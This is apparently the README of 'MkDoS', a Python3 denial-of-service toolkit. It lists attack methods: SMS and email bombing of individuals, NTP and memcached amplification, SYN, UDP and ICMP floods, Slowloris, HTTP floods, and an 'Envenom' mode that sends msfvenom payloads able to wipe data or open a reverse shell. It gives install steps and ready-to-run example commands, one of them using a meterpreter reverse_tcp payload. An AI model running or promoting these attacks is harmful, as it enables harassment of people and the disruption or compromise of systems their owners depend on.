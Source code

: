 # MkDoS
### Modern DoS toolkit with Python3

### Methods:
| Method               |   Target   | Description |
| ---------------------| -----------|-------------|
| SMS                  | PHONE                        | Sends a massive amount of SMS messages and calls to a single target |
| EMAIL                | EMAIL                        | Sends a massive amount of Email messages to a target |
| NTP                  | IP:PORT                      | NTP amplification is a type of Distributed Denial of Service (DDoS) attack in which the attacker exploits publically-accessible Network Time Protocol (NTP) servers to overwhelm the targeted with User Datagram Protocol (UDP) traffic. |
| SYN                  | IP:PORT                      | A SYN flood (half-open attack) is a type of denial-of-service (DDoS) attack which aims to make a server unavailable to legitimate traffic by consuming all available server resources. |
| UDP                  | IP:PORT                      | A UDP flood is a type of denial-of-service attack in which a large number of User Datagram Protocol (UDP) packets are sent to a targeted server with the aim of overwhelming that device’s ability to process and respond. The firewall protecting the targeted server can also become exhausted as a result of UDP flooding, resulting in a denial-of-service to legitimate traffic. |
| POD (Ping of Death)  | IP                           | Ping of Death (a.k.a. PoD) is a type of Denial of Service (DoS) attack in which an attacker attempts to crash, destabilize, or freeze the targeted computer or service by sending malformed or oversized packets using a simple ping command. |
| ICMP                 | IP:PORT                      | Ping flood, also known as ICMP flood, is a common Denial of Service (DoS) attack in which an attacker takes down a victim's computer by overwhelming it with ICMP echo requests, also known as pings. |
| HTTP                 | URL                          | HTTP Flood is a type of Distributed Denial of Service (DDoS) attack in which the attacker manipulates HTTP and POST unwanted requests in order to attack a web server or application. These attacks often use interconnected computers that have been taken over with the aid of malware such as Trojan Horses. |
| Slowloris            | IP:PORT                      | Slowloris is a denial-of-service attack program which allows an attacker to overwhelm a targeted server by opening and maintaining many simultaneous HTTP connections between the attacker and the target. |
| Memcached            | IP:PORT                      | A memcached distributed denial-of-service (DDoS) attack is a type of cyber attack in which an attacker attempts to overload a targeted victim with internet traffic. The attacker spoofs requests to a vulnerable UDP memcached* server, which then floods a targeted victim with internet traffic, potentially overwhelming the victim’s resources. While the target’s internet infrastructure is overloaded, new requests cannot be processed and regular traffic is unable to access the internet resource, resulting in denial-of-service. |
| Envenom              | IP:PORT:LHOST:LPORT:PAYLOAD  | EnVenom is a utility that utilizes the msfvenom utility created by Metasploit's rapid7. It is a DoS attack that uses msfvenom to generate a payload, then encrypts it across the TCP protocol with a tag that decrypts it once it reaches its intended target. Once decrypted, it can do numerous things, from wiping data to opening a reverse TCP shell. The sheer number of these payloads should yield an exhaustion of resources. It is still experimental, though. |

sudo pip install scapy
```
```
python3 mkdos.py --help
```

### USAGE:
```
usage: mkdos.py [-h] [--target <IP:PORT, URL, PHONE>]
                 [--method <SMS/EMAIL/NTP/UDP/SYN/ICMP/POD/SLOWLORIS/MEMCACHED/HTTP/ENVENOM>]
                 [--time <time>] [--threads <threads>]

Denial-of-Service Attack ToolKit

optional arguments:
  -h, --help            show this help message and exit
  --target <IP:PORT, URL, PHONE>
                        Target IP:port, url or phone
  --method <SMS/EMAIL/NTP/UDP/SYN/ICMP/POD/SLOWLORIS/MEMCACHED/HTTP/ENVENOM>
                        Attack method
  --time <time>         time in secounds
  --threads <threads>   threads count (1-200)
  --payload <payload>   Payload for msfvenom
  --lhost <lhost>       Local host for msfvenom payload
  --lport <lport>       Local port for msfvenom payload
  --num_packets <num_packets>   Number of packets to send
  --burst_interval <burst_interval>   Interval between packets in seconds

For Example:
$ sudo python3 mkdos.py --method MEMCACHED --time 60 --threads 100 --target 127.0.0.1:80
$ sudo python3 mkdos.py --method SMS --time 30 --threads 50 --target +66123456789
$ sudo python3 mkdos.py --method ENVENOM --time 30 --threads 50 --target 127.0.0.1:80 --payload windows/x64/meterpreter/reverse_tcp --lhost 127.0.0.1 --lport 4444
```
